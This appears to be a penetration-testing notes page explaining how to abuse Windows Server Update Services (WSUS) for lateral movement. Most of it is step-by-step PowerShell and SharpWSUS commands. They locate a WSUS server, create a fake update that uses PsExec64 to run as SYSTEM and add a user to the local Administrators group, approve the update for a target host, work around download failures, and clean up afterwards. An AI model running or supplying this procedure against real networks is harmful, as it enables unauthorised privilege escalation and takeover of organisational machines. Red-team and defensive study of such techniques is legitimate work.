




---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
  tags:
    visible: true
---

# WSUS

## **Windows Server Update Services (WSUS)**

[Windows Server Update Services (WSUS)](https://learn.microsoft.com/en-us/windows-server/administration/windows-server-update-services/get-started/windows-server-update-services-wsus) is a Microsoft service used to centrally distribute updates and patches for Microsoft products within an organisation. It allows internal systems to receive updates without direct internet access and is commonly deployed in corporate Windows environments.

Access to WSUS requires administrative privileges on the WSUS server, typically membership in the local Administrators or the WSUS Administrators group. For lateral movement via WSUS, the target systems must be configured to receive updates from the compromised WSUS server.

## Enumeration


Alternatives to [`SharpWSUS`](https://github.com/nettitude/SharpWSUS) → [`WSUSpendu`](https://github.com/alex-dengx/WSUSpendu) (PowerShell) and [`Thunder_Woosus`](https://github.com/ThunderGunExpress/Thunder_Woosus) (C#).


Enumerate if there is a WSUS Server using `reg.exe` or `SharpWSUS`.

```powershell
# Query the registry key of the service
> reg query HKLM\\Software\\Policies\\Microsoft\\Windows\\WindowsUpdate /v WUServer

# Locate the WSUS service via SharpWSUS
.\SharpWSUS.exe locate
```

Connect to the WSUS server and get information about computers, groups, etc.

```powershell
# List WSUS information (privileged shell)
.\SharpWSUS.exe inspect
```

## Lateral Movement

The objective is to create an update that enables command execution on the target system. Since WSUS only allows Microsoft-signed binaries, the update must appear legitimate and use approved components to achieve execution. The process is as follows:

1. Create a malicious patch
2. Approve the patch for deployment
3. Wait for the target to download the patch
4. Clean up post-compromise

Create a malicious patch that adds the compromised user to the local Administrator group.

> `-s` → run as SYSTEM, `-accepteula` → avoid pop-ups, `-d` → return right away


```powershell
# Create a malicious path that adds the target user to the local Administrator group
.\SharpWSUS.exe create /payload:"C:\\Tools\\sysinternals\\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c net localgroup Administrators filiplain /add" /title:"NewAccountUpdate"
```


Check if the update was added into the server via WSUS.

<div align="left"><figure><figcaption></figcaption></figure></div>

Next, approve the patch for deployment by specifying which computers this patch will apply to and associate those computers with a group.


```powershell
# Approve the patch for deployment
.\SharpWSUS.exe approve /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv01.batman.local /groupname:"FastUpdates"

# Confirm that the group was created
.\SharpWSUS.exe inspect
```


Sometimes `SharpWSUS` won't automatically approve the update or errors can pop up when uploading `PSExec64.exe` once the update is approved. In this case, we have to approve the patch manually.

<div align="left"><figure><figcaption></figcaption></figure></div>

<div align="left"><figure><figcaption></figcaption></figure></div>

If the WSUS Administrator account we are using is not a member of the WSUS Administrators group, when we approve the update, it will fail to download the binary.



To fix this, check how WSUS expect the file to be named and copy the renamed binary to the `WSUScontent` directory.


```powershell
# Enumerate the WsusContent directory path and expected filename
Get-WinEvent -LogName Application | Where-Object {$_.Id -eq 364 } |fl

# Rename and copy the binary
copy C:\\Tools\\sysinternals\\PSExec64.exe C:\\WSUS\\WsusContent\\02\\0098C79E1404B4399BF0E686D88DBF052269A302.exe
```


Now, we go to the WSUS Service GUI, select the update with the error, and click `Retry Download`.


If we perform the above step, i.e., copied `PsExec64.exe` into the `WsusContent` directory, it is recommended that we create another update with a different title but the same payload to force the update quickly.


Wait for the target to download and install the patch. If access to it is available, force an update.


```powershell
# Check if the target has installed the update
.\SharpWSUS.exe check /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv01.batman.local

# Check the target user is part of the Administrators group
net localgroup administrators

# Clean up
.\SharpWSUS.exe delete /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv02.batman.local
```

